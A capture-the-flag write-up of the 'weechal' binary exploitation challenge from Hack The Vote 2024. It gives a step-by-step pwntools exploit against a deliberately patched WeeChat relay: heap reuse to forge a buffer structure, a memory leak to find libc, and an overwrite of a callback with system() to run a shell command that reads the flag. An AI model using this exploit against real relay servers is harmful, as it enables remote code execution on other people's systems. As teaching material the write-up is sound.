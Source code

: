 ```yaml
---
title: "Hack The Vote 2024: weechal"
date: 2024-11-10T10:40:00-05:00
type: posts
---
```


Weechal was a binary exploitation challenge in Hack The Vote 2024, an election-themed computer security Capture the Flag (CTF) competition run by RPISEC.

I competed under the team name "worst" along with my friend Krishna and managed to solve this challenge on day two of the event. We were the second of five teams to solve it, missing first blood by a few hours.

## Challenge

The challenge was a modified build of version 3.4 of the [WeeChat IRC client](https://weechat.org/) that was running as a relay server using WeeChat's own protocol, which is described by the user manual as being *"used by remote interfaces to display and interact with WeeChat."* The [exact commands](https://github.com/RPISEC/HackTheVote/blob/master/2024/pwn/weechal/src/challenge) used to launch the challenge have us communicating with the relay through a Unix domain socket and set "ctf" as the password needed to connect.

In WeeChat, a *window* is an area of the screen that displays a *buffer*, which in turn is an object that contains text and to which text and commands can be sent by the user. For example, there is a buffer for each channel the user is chatting in as well as a main "core" buffer that always exists.

As documented in the [WeeChat Relay protocol specification](https://weechat.org/files/doc/devel/weechat_relay_protocol.en.html), the protocol involves passing raw pointers between the client and server. For example, if the client politely asks the server for a list of buffers by sending "`infolist buffer`", the server will happily reply with, among other information, the addresses of the [`t_gui_buffer`](https://github.com/weechat/weechat/blob/3.4/src/gui/gui-buffer.h#L73-L224) structures representing each buffer.

These addresses can also be used as arguments to other commands, such as `input 0x1234abcd hello`, which would attempt to send "hello" to the buffer at memory address `0x1234abcd`. Ordinarily the server makes sure that the pointers it's given are valid, but the challenge has been compiled with [this patch](https://github.com/RPISEC/HackTheVote/blob/master/2024/pwn/weechal/src/chal.patch) to remove some of these checks, allowing us to trick it into using any memory we like as if it were a `t_gui_buffer`. This capability can be used to gain arbitrary code execution and read the `flag.txt` file.


## Exploit

My approach was to create a buffer, learn its address with `infolist buffer`, and close it, freeing its memory. I filled the hole where the buffer used to be with the `/eval` command, using `${base_decode:16,...}` to send a hex-encoded string to avoid issues with null-termination.

It turns out that there is a [static buffer](https://github.com/weechat/weechat/blob/3.4/src/plugins/relay/relay-client.c#L580) in `relay.so` holding the raw bytes sent by the client before any parsing takes place. Using this would have eliminated the need to leak any heap addresses at all, but unfortunately I was not aware of it. Taking advantage of its existence is left as an exercise for the reader.

Let's walk through the exploit step by step, using the excellent [pwntools](https://github.com/Gallopsled/pwntools) library to make life easier. We start by connecting to and performing a handshake with the relay server, disabling compression for simplicity. Then the previously mentioned buffer is allocated, its address is leaked, and finally it is freed.

```python
from pwn import *

context.binary = "weechat/bin/weechat-headless"
libc = ELF("libc.so.6")
relay = ELF("weechat/lib/weechat/plugins/relay.so")

io = remote("weechal.chal.hackthe.vote", 1337)
io.sendline(b"handshake compression=off")
io.sendline(b"init password=ctf")

io.sendline(b"input core.weechat /buffer add asdf")
io.sendline(b"infolist buffer")
io.sendline(b"input core.weechat /buffer close asdf")
```

The messages the server sends back are in a binary format, but we can get the information we need without properly parsing it. See the protocol specification if you're interested in the details.

The first pointer received points to the `t_gui_buffer` for the main `core.weechat` buffer, though we won't actually be using it. Next up is a buffer created by the relay plugin, which will be useful later. Finally, we receive the address of the hole we've created.

```python
def read_pointer():
    io.recvuntil(b"pointer")
    io.recvuntil(b"ptr")
    return int(io.recvn(u8(io.recvn(1))), 16)


core_weechat = read_pointer()
relay_buffer = read_pointer()
hole = read_pointer()
log.info(f"{relay_buffer=:#x}")
log.info(f"{hole=:#x}")
```

We can now fill in the hole. The `eval ${base_decode:16...}` command will decode a hex-encoded string into a fresh heap allocation. By sending a string of the correct length, we can get this to be the same area of memory that our recently freed `t_gui_buffer` occupied and forge our own in its place.

```python
def fill_hole(*args):
    data = flat(*args, length=0x248 // 2 - 1, filler=p8(0))
    io.sendline(
        b"input core.weechat /eval ${base_decode:16," + data.hex().encode() + b"}"
    )
```

Being able to hex-encode the payload is nice because it sidesteps any issues with null termination, but the implementation of `base_decode` conservatively creates an allocation with the same size as the hex string we give it. We need to send a string of length `sizeof(t_gui_buffer) = 0x248` to fill the hole, but after being decoded our payload will only fill half of that. Luckily, this turns out not to be a problem as we don't need to control anything beyond the first half of `t_gui_buffer`.

After the `eval` command completes, the allocation will be freed again, though most of the data will remain intact. This actually works in our favor, allowing repeated uses of `eval` to reuse the same memory as many times as needed without extra effort.

As for what to send, let's examine the `t_gui_buffer` structure. Here are the relevant fields and their corresponding offsets as shown by the `ptype` command in `gdb`:

```
(gdb) ptype/ox struct t_gui_buffer
/* offset  |    size */  type = struct t_gui_buffer {
                           ...
/* 0x0028  |  0x0008 */    char *full_name;
                           ...
/* 0x00b8  |  0x0008 */    struct t_gui_nick_group *nicklist_root;
                           ...
/* 0x0100  |  0x0008 */    int (*input_callback)(const void *, void *, struct t_gui_buffer *, const char *);
/* 0x0108  |  0x0008 */    const void *input_callback_pointer;
                           ...
                               /* total size (bytes):  584 */
                         }
```

The plan is to point `input_callback` to the `system` function in the C standard library, point `input_callback_pointer` to the command to run, and then send an `input` command to our fake buffer to trigger a call to `input_callback`. Before that happens, `full_name` will be passed to `strdup`, so we also need to make sure it points to a valid address.

To locate `system` we need a way of reading from an arbitrary address. This can be accomplished with the `nicklist` command, which walks through a linked list of `t_gui_nick_group` structures starting at `nicklist_root`.

```
(gdb) ptype struct t_gui_nick_group
type = struct t_gui_nick_group {
    char *name;
    char *color;
    int visible;
    int level;
    struct t_gui_nick_group *parent;
    struct t_gui_nick_group *children;
    struct t_gui_nick_group *last_child;
    struct t_gui_nick *nicks;
    struct t_gui_nick *last_nick;
    struct t_gui_nick_group *prev_group;
    struct t_gui_nick_group *next_group;
}
```

We can craft a list with a single entry that has its `name` set to wherever we're interested in reading from. The data starting at that address and continuing until the first null byte will be found at offset `0x9e` in the response to `nicklist`.

```python
def leak(addr):
    fill_hole(
        {
            0x28: hole,  # full_name
            0xB8: hole + 0xC0,  # nicklist_root
            0xC0: [addr, hole, 1, 0, 0, 0, 0, 0, 0, 0, 0],
        }
    ),
    io.clean()
    io.sendline(f"nicklist {hole:#x}".encode())
    io.recvn(0x9E)
    return u64(io.recvn(8))
```

`system` can be found by starting at `relay_buffer->input_callback`, which holds the address of the `relay_buffer_input_cb` function in `relay.so`, then reading the address of a function in `libc.so` from `relay.so`'s global offset table.

```
relay.address = leak(relay_buffer + 0x100) - relay.symbols["relay_buffer_input_cb"]
libc.address = leak(relay.symbols["got.ctime"]) - libc.symbols["ctime"]
log.info(f"{relay.address=:#x}")
log.info(f"{libc.address=:#x}")
```

Now we can simply run `cat flag.txt` to read the flag, but since we're not connected to the server's standard output we won't receive anything back. The socket we are connected to will be inherited by the shell `system` spawns, though, and it's easy enough to redirect the output of `cat` to it. The command in the following code loops over all open file descriptors, trying each one. It's not very elegant, but this is CTF!

```python
fill_hole(
    {
        0x28: hole,  # full_name
        0x30: b"for fd in $(ls /proc/$$/fd); do cat flag.txt >&$fd; done",
        0x100: libc.symbols["system"],  # input_callback
        0x108: hole + 0x30,  # input_callback_pointer
    }
)
io.sendline(f"input {hole:#x} asdf".encode())
log.success(io.recvregex(b"(flag\{.*\})", capture=True)[1].decode())
```

The full exploit can be found [here](solve.py). Running it yields the flag: 

`flag{i_cant_believe_i_had_to_patch_out_checks_in_an_api_that_takes_pointers_over_the_wire}`
